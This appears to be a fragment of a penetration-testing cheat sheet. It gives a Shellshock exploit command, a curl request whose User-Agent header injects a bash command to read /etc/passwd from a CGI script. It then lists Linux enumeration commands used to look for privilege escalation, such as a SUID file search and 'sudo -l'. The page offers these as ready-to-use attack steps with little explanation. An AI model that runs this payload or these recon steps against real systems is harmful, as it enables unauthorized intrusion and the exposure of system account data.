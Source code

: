 ------

## SHELLSHOCK

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <URL>/cgi-bin/<SCRIPT>
```

------

## USEFUL LINUX COMMANDS

### Find a file

```
locate <FILE>
find / -name "<FILE>"
```

### Active connection

```
netstat -lntp
```

### List all SUID files

```
find / -perm -4000 2>/dev/null
```

### Determine the current version of Linux

```
 cat /etc/issue
```

### Determine more information about the environment

```
uname -a
```

### List processes running

```
ps -faux
```

### List the allowed (and forbidden) commands for the invoking use

```
sudo -l
```
